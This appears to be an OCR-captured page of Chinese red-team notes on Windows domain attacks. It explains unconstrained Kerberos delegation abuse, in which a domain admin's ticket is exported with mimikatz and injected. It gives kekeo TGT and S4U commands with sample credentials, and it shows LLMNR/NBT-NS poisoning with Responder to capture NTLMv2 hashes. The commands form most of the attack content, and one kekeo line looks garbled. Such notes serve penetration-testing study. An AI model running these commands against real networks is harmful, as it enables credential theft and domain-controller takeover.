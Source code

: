 **案例**

非约束委派攻击：当域控管理员访问 A 服务时，A 服务就会将访问者的 TGT 保存在内存中（此时攻击者无法访问域控），但是攻击者通过 mimikatz 的 sekurlsa::tickets /export 命令导出内存中域控管理员访问 A 服务的票据，将其注入到内存，这时候就可以访问域控。

![](../../../../assets/img/安全/笔记/RedTeam/Windows渗透/1.png)

```
kekeo.exe "tgt::ask /user:sqlsvr /domain:0day.org /password:Admin12345" exit

kekeo.exe "tgs::s4u /tgt:TGT_sqlsvr@0DAY.ORG_krbtgt~0day.org@0DAY.ORG.kirbi /user:administrator@0day.org /service:/service:service_to_access" exit


Tgs::s4u /tgt:service_account_tgt_file /user:administrator@testlab.com /service:service_to_access
```

## 毒化LLMNR和NBT-NS请求

**相关文章**
- [Windows环境中使用Responder获取NTLMv2哈希并利用](https://www.freebuf.com/articles/system/194549.html)
- [攻防最前线：一封邮件就能捕获你的口令散列值](https://www.secrss.com/articles/8143)
- [Steal_NTLMv2_hash_using_File_Download_vulnerability](https://github.com/incredibleindishell/Windows-AD-environment-related/blob/master/Steal_NTLMv2_hash_using_File_Download_vulnerability/README.md) - 任意文件下载漏洞配合 Responder 毒化

**工具**
- [SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
    ```
    python Responder.py -I eth0
    ```
    在 Windows 机器上 ：打开文件浏览器，连接 file:////<linuxIPaddress>/test.htlm (或者任意文件名)；
    ```
    cd /usr/share/responder/logs
    ```

